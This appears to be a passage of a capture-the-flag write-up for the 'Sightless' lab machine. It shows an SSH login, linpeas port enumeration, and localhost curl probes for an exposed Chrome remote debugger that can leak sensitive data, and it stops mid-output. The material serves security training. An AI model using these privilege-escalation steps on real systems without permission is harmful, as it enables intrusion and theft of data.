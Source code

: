 ```terminal
[★]$ ssh michael@sightless.htb
The authenticity of host 'sightless.htb (10.10.11.32)' can't be established.
ED25519 key fingerprint is SHA256:L+MjNuOUpEDeXYX6Ucy5RCzbINIjBx2qhJQKjYrExig.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'sightless.htb' (ED25519) to the list of known hosts.
michael@sightless.htb's password: 
Last login: Tue Sep  3 11:52:02 2024 from 10.10.14.23
michael@sightless:~$ id
uid=1000(michael) gid=1000(michael) groups=1000(michael)
```

### Michael -> root

This part is a long process

After running linpeas we find multiple ports open locally.

```terminal
╔══════════╣ Active Ports                                                        
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:38603         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:40601         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:60451         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

Also linpeas shows that chrome is running with [remote debugging](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/).

![remote](4.png)

This will allow us to read sensitive data.

First we need to identify what port is running the remote debugger. It's deferent every time.

```terminal
michael@sightless:/tmp$ netstat -tulpn 2>/dev/null | grep 127 | awk '{print $4}'
127.0.0.1:44053
127.0.0.1:60579
127.0.0.1:3306
127.0.0.1:8080
127.0.0.1:33060
127.0.0.1:45177
127.0.0.1:3000
127.0.0.53:53
127.0.0.53:53

michael@sightless:/tmp$ curl 127.0.0.1:60579/json
{"value":{"error":"unknown command","message":"unknown command: unknown command: json","stacktrace":"#0 0x562196871e43 \u003Cunknown>\n#1 0x5621965604e7 \u003Cunknown>\n#2 0x5621965c76b2 \u003Cunknown>\n#3 0x5621965c718f \u003Cunknown>\n#4 0x56219652ca18 \u003Cunknown>\n#5 0x56219683616b \u003Cunknown>\n#6 0x56219683a0bb \u003Cunknown>\n#7 0x562196822281 \u003Cunknown>\n#8 0x56219683ac22 \u003Cunknown>\n#9 0x56219680713f \u003Cunknown>\n#10 0x56219652b027 \u003Cunknown>\n#11 0x7f6cc0778d90 \u003Cunknown>\n"}}michael@sightless:/tmp$ 

michael@sightless:/tmp$ curl 127.0.0.1:45177/json
[ {
```